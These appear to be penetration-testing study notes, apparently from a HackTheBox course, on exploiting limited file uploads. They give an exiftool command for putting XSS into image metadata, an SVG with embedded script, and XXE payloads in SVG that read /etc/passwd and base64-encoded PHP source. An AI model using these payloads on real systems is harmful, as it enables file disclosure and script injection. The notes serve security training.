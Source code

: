 # Limited File Uploads

## XSS
- SVG is another file type that we can use to exploit File Upload vulnerability.

- Assume we have XSS payload embedded inthe file metadata

``bash
exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
exiftool HTB.jpg
...SNIP...
Comment                         :  "><img src=1 onerror=alert(window.origin)>
```

- The payload will be executed when the image's metadata is displayed. Another way to trigger the payload is to change its MIME-Type to `text/html`, which tricks web applications into thinking it as an HTML document and executing the payload. This approach does not require us to view the image's metadata.

- The same concept can be applied to SVG files. We can modify the SVG file as below:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

- Once the SVG is uploaded to the application, XSS payload will trigger everytime the image is used.

# XXE
- Instead of inserting XSS payload, we can inject XXE payload to retrieve the content of a file

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

- Another XXE payload can be used to read the source code of the applications

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```
